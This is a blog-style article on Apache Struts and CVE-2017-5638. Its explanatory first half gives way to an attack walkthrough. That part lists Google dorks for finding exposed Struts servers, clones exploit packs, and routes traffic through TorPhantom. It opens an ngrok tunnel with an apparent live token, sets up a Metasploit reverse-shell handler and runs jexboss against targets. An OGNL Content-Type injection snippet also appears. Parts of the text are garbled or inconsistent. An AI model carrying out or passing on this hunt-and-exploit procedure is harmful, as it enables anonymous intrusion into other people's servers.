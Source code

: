 ```yaml
---
title: APACHE STRUTS VULNERABILITY CVE 2017-5638 - Quick Sort
category: Article
date: 2019-2-19
author: 読み上げ
comment: true
---
```


## What is [Apache Struts](https://www.whitehatsec.com/glossary/content/apache-struts)?

Apache Struts is an open-source web application framework used for creating Java EE web applications. It became a top-level Apache project in 2005. 
Without Apache Struts, a standard Java EE web application receives information to a server through a web form submitted by a client or similar user. The information is then given to a Java Servlet or JavaServer Pages. In the Java Servlet, the information communicated interacts with a database and creates a response in HTML. Similarly, JavaServer Pages can be used to blend Java code and HTML for the same result. 

Since these approaches mix presentation with application logic, they can make maintenance difficult for large projects. Apache struts is used to help amend that.
Apache Struts helps fix the problems created with a standard Java EE web application by separating the model (the application logic that interacts with a database) from the view (HTML pages shown to the client) and from the controller (information that passes between the model and view). Struts provides the controller and promotes the writing of templates for the presentation layer or view. The programmer needs to write the model code and create a central configurate file that binds together model, view, and controller.

## What is Apache Struts 1?
Apache Struts 1 is the first iteration of Struts created in May 200 by Craig McClanahan and donated to the Apache Foundation. Its request-based framework consisted of 3 main components:
 - ***A Request Handler***
 - ***A Response Handler***
 - ***A Tag Library***
 
These worked to simplify the process of handling large projects and supported REST applications in addition to technologies such as SOAP & AJEX. However, due to limitations within Apache Struts 1 it was modified and updated in Struts 2.

## What is Apache Struts 2?
Apache Struts 2 was released in February 2007 and the rebranding of WebWork 2.2. Whilst the same architecture from Struts 1 was the same, the code base was completely different and unlike Struts 1 where requests went directly to the servlet, in Struts 2 requests & responses travel through an interceptor/filter.

## Vulnerabilities within Apache Struts
Struts has had numerous vulnerabilities disclosed, many based on its use of OGNL (Object-Graph Navigation Language). Many of these vulnerabilities have been particularly serious as they allow an attacker to carry out arbitrary remote code execution, potentially allowing complete control of the server. 

The most high-profile Struts exploit happened in September 2017’s Equifax breach, which took advantage of a Struts vulnerability disclosed 6 months earlier. 
Whilst some vulnerabilities were discovered within Struts 1 ( Denial of Service: [CVE-2006-1547](https://www.cvedetails.com/cve/CVE-2006-1547/), Cross Site Scripting: [CVE-2008-2025](https://www.cvedetails.com/cve/CVE-2008-2025/)), most vulnerabilities have been found on Struts 2 with many tied to the usage of OGNL technology.

In 2016 there were 16 unique CVE’s released relating to Apache Struts 2 which like Struts 1 included, Denial of Service & Cross Site Scripting but further included Remote Code Execution and CSRF.

In 2017 there were 15 16 unique CVE’s. It was in 2017 it was discovered that certain versions of the [Apache Struts 2](https://www.whitehatsec.com/blog/apache-struts-cve-2017/) Framework (Struts 2.3.5 – 2.3.31 and 2.5 – 2.5.10) were vulnerable to remote code execution attacks. This allowed attackers to deliver malicious payloads. To prevent these attacks, it was recommended to upgrade to Apache Struts version 2.3.32 or 2.5.10.1.
You’ll gain a comprehensive understanding of the state of application security across the whole software development life cycle by reading through our [latest Stats Report](https://www.whitehatsec.com/resources-category/threat-reports/).

## Apache Struts Vulnerability Testing 
[WhiteHat’s DAST application scanning](https://www.whitehatsec.com/platform/dynamic-application-security-testing/) detects a large number of Struts vulnerabilities using production-safe tests. 

# What is CVE-2017-5638?
Struts is vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid Content-Type HTTP header. The Struts vulnerability allows these commands to be executed under the privileges of the Web server. This is full remote command execution and has been actively exploited in the wild from the initial disclosure.

The vulnerable code is in the Jakarta Multipart parser. If the Content-Type value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the Content-Type to an OGNL expression such as:

~~~bash
Content­Type: ${(#_='multipart/form­data')}...
#eps=#container.toString()
#cmds=({'/bin/echo', #eps})
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
~~~
![img-sample](https://www.synopsys.com/blogs/software-security/wp-content/uploads/HTTPRequestWithCurl.png)

The curl command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header and receiving a response.

## FIND POTENTIAL TARGETS

~ intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
~ intitle:"Struts Problem Report" intext:"development mode is enabled."
~ filetype:action
~ filetype:do
~ filetype:java
~ filetype:out
~ filetype:bat
~ filetype:seam
~ filetype:sh
~ filetype:bson
~ filetype:el
~ filetype:pm
~ inurl:login.action
~ inurl:login.do
~ inurl:login.java
~ inurl:index.action
~ inurl:index.do
~ inurl:index.java

## TOOLS

~~~bash
git clone https://github.com/s1kr10s/Apache-Struts-v4.git
git clone https://github.com/drigg3r/Struts-Apache-ExploitPack.git
git clone https://github.com/opsdisk/pagodo.git
git clone https://github.com/3ndG4me/torphantom.git
~~~
***or
~~~bash
git clone https://github.com/andrefernandes86/demo-apachestruts-attacker-web.git
~~~

## Optional
Save your dorks list into a file such as "dorks.txt" and Specify the output path and filename such as "urls.txt"
~~~bash
$ sudo python pagodo.py ­-g dorks.txt ­-l 200 ­-s ­-e 35.0 ­-j 1.1 >> urls.txt
~~~

## INITIALIZE TOR SESSION WITH TORPHANTOM
###  Type the below commands
~~~bash
$ sudo torphantom start ­-i <interface>
~~~

### Scan using Struts-Scanner
Type the below commands and follow up the screen prompt
~~~bash
$ ./struts­-scanner
~~~
Type the below commands after correcting the input and output file paths
~~~bash
$ python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2
~~~

## INITIALIZE TCP TUNNELING WITH NGROK
~~~bash
$ ./ngrok authtoken 8ml78jQFrVNah4cN8UwTt_5ZVZYRPD8q7huTk7vo8MZ
~~~
*Your Token can be found in your Ngrok account*

Create the Ngrok session on the port 4444 using the below command
~~~bash
$ ./ngrok tcp 4444
~~~

## CREATE MSF HANDLER
~~~bash
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(multi/handler) > set LHOST 0.0.0.0 LHOST => 0.0.0.0
$ msf exploit(multi/handler) > set LPORT 4444 LPORT => 4444
$ msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp PAYLOAD => linux/x86/shell/reverse_tcp msf exploit(multi/handler) > show options
~~~

## EXPLOIT THE TARGET
~~~bash
$ sudo python jexboss.py -u http://example.com/login.action
~~~
<details>
<summary>Complete Guide</summary>
<a href="https://www.netsparker.com/blog/web-security/finding-exploiting-apache-struts-vulnerabilities"/>netsparker</a>

<a href="https://github.com/search?q=apachestruts&type=all/>Related Articles</a>
